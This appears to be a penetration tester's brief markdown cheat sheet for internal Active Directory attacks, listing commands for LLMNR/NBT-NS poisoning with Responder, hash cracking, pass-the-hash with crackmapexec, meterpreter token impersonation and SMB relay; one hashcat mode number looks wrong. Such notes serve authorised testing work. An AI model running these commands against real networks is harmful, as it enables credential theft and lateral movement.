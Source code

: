 
# Internal
- be loud to help blue team sync up
- Active Directory Attacks
  - LLMNR/NBT-NS Poisoning
    - python Responder.py -I tun0 -rdw -v
    - hashcat -m 5680 $hashes.txt $passwords.txt
  - Pass the hash
    - crackmapexec $subnet -u $user -d $domain -p $password
  - Token Impersonation
    - https://www.offensive-security.com/metasploit-unleashed/fun-incognito/
    - meterpreter> load incognito
    - meterpreter> list_tokens -u
    - meterpreter> impersonate_token $domain\\$user
  - SMB Relay
    - python ntlmrelayx.py
  - kerboroasting
  - mitm6 